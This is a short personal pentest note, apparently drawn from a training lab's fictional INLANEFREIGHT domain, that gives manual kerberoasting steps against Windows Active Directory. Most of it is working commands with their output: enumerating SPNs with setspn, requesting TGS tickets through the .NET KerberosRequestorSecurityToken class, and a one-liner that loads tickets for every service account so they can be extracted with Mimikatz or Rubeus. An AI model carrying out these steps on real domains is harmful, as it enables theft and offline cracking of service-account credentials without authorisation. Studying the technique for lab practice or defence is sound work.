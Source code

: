 ```yaml
---
tags:
  - windows
  - kerberoasting
---
```

>Manual method for kerberoasting if tools don't work.  

# Kerberoasting
To perform kerberoasting, the steps are:
1. Find user accounts with `SPNs`
2. Load the TGS ticket into memory
3. Extract those TGS tickets from memory using [[Mimikatz#Kerberoasting|Mimikatz]]
## 1. Enumerate SPNs.
```cmd
> setspn.exe -Q */*

Checking domain DC=INLANEFREIGHT,DC=LOCAL
CN=ACADEMY-EA-DC01,OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL
        exchangeAB/ACADEMY-EA-DC01
        exchangeAB/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        TERMSRV/ACADEMY-EA-DC01
        TERMSRV/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        ldap/ACADEMY-EA-

<SNIP>

CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        backupjob/veam001.inlanefreight.local
CN=SOLARWINDSMONITOR,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        sts/inlanefreight.local

<SNIP>

CN=sqlprod,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SPSJDB.inlanefreight.local:1433
CN=sqlqa,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SQL-CL01-01inlanefreight.local:49351
CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        adfsconnect/azure01.inlanefreight.local

Existing SPN found!
```
Focus on `user accounts` and ignore computer accounts.
## 2. Request TGS tickets for the above `user account` and load it into memory
```powershell
PS > Add-Type -AssemblyName System.IdentityModel
PS > New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```
This is what even [[Rubeus]] does in default kerberoasting method:
- [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet adds a .NET framework class to our PS session.
- `-AssemblyName` parameter specifies an assembly that contains types that we want to use.
- [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services.
- [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet creates an instance of a .NET Framework object.
- [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class creates a security token and passes the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session
## - Retrieve All Tickets
```powershell
PS > setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
Once loaded in memory, it can be extracted using [[Mimikatz#Kerberoasting|Mimikatz]] or [[Rubeus#Kerberoasting|Rubeus]]